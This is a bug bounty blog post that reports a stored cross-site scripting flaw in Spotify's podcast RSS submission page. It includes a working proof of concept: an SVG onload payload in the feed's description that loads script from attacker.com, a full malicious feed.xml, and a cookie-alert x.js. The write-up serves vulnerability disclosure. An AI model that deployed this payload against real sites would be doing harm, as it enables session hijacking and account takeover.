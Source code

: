 ```yaml
---
layout: post
title: A XSS on Spotify's Podcasters 
date: 2021-04-06 16:49:47 +07:00
#modified: 2020-10-26 16:49:47 +07:00
description: A review of a XSS vulnerability discovered on podcasters.spotify.com.
tags:
  - bug bounty
  - spotify
  - xss
  - web vulnerability
image: /assets/img/xss-on-spotify/
---
```


In this blog post I'll share a report I wrote a few months ago for a XSS bug found on `podcasters.spotify.com`. This was submitted on [HackerOne](https://hackerone.com/) but unfortunately, it was already reported and mine was considered a duplicate, oh well, better luck next time.


## Summary
When a user submits a new podcast RSS feed for verification, the description tag inside it is not properly escaped. This results in JavaScript being executed on the page which could allow attackers to hijack users' session cookies and/or take over accounts.

## Impact
When a user submits a malicious or compromised podcast RSS feed, attackers would be able to hijack the user's account.

[![XSS Example 1]({{page.image}}spotify-xss-example.png)]({{page.image}}spotify-xss-example.png)

[![XSS Example 2]({{page.image}}spotify-xss-example2.png)]({{page.image}}spotify-xss-example2.png)

### Steps To Reproduce

1. Start by navigating to: `https://podcasters.spotify.com/submit`
2. Click on "Get Started" button
3. Submit a malicious RSS feed link (proof of concept provided)
4. The page renders whatever is in `<description></description>` 

The proof of concept simply shows the logged-in user's cookie in the web browser. I've provided a link to my custom podcast RSS feed: `https://attacker.com/feed.xml`. The **feed.xml** attachment contains HTML which includes a **x.js** Javascript which alerts the user's cookie. This was tested to check whether it was possible to get around Content-Security-Policy, and it is.

Sample of **feed.xml** (view attachment):
```xml
----[CUT]----
<description>
<![CDATA[<svg/onload=body.appendChild(document.createElement`script`).src='https://attacker.com/x.js' hidden/>]]>
</description>
----[CUT]----
```

And **x.js** simply contains:
```
alert(document.cookie)
```


### Proof of Concept
**feed.xml**

```xml
<rss version="2.0" xmlns:itunes="http://www.itunes.com/dtds/podcast-1.0.dtd" xmlns:googleplay="http://www.google.com/schemas/play-podcasts/1.0" xmlns:atom="http://www.w3.org/2005/Atom" xmlns:media="http://search.yahoo.com/mrss/" xmlns:content="http://purl.org/rss/1.0/modules/content/">
<channel>
    <atom:link href="https://attacker.com/feed.xml" rel="self" type="application/rss+xml"/>
    <title>REKITTO</title>
    <link>https://attacker.com/feed.xml</link>
    <language>en-gb</language>
    <description><![CDATA[<svg/onload=body.appendChild(document.createElement`script`).src='https://attacker.com/x.js' hidden/>]]></description>
    <image>
      <url>https://attacker.com/serial-itunes-logo.png</url>
      <title>XYZ</title>
      <link>https://attacker.com/</link>
    </image>
    <itunes:explicit>no</itunes:explicit>
    <itunes:type>episodic</itunes:type>
    <itunes:subtitle>True stories from the dark side of the Internet</itunes:subtitle>
    <itunes:author>Tester</itunes:author>
    <itunes:summary>Summary text here.</itunes:summary>
    <itunes:owner>
      <itunes:name>Tester</itunes:name>
      <itunes:email>user@example.com</itunes:email>
    </itunes:owner>
    <itunes:image href="https://attacker.com/serial-itunes-logo.png"/>
    <itunes:category text="Technology">
    </itunes:category>
    <item>
      <title>Streaming: The Example Show</title>
      <description>Some text here.</description>
      <pubDate>Sat, 23 May 2020 03:29:15 -0000</pubDate>
      <itunes:title>Testing</itunes:title>
      <itunes:episodeType>trailer</itunes:episodeType>
      <itunes:keywords><![CDATA[<p>More Text</p>]]></itunes:keywords>
      <itunes:author>Tester</itunes:author>
      <itunes:image href="https://attacker.com/serial-itunes-logo.png"/>
      <itunes:subtitle>Streaming: The Example Show</itunes:subtitle>
      <itunes:summary>Another summary :)</itunes:summary>
      <content:encoded>
        <![CDATA[<p>Even more encoded text</p>]]>
      </content:encoded>
      <itunes:duration>6</itunes:duration>
      <itunes:explicit>no</itunes:explicit>
      <guid isPermaLink="false"><![CDATA[dd10738e-9efg-11ea-bb2d-cf99e05d892b]]></guid>
      <enclosure url="https://attacker.com/sample.mp3" length="6" type="audio/mpeg"/>
    </item>
  </channel>
</rss>
```
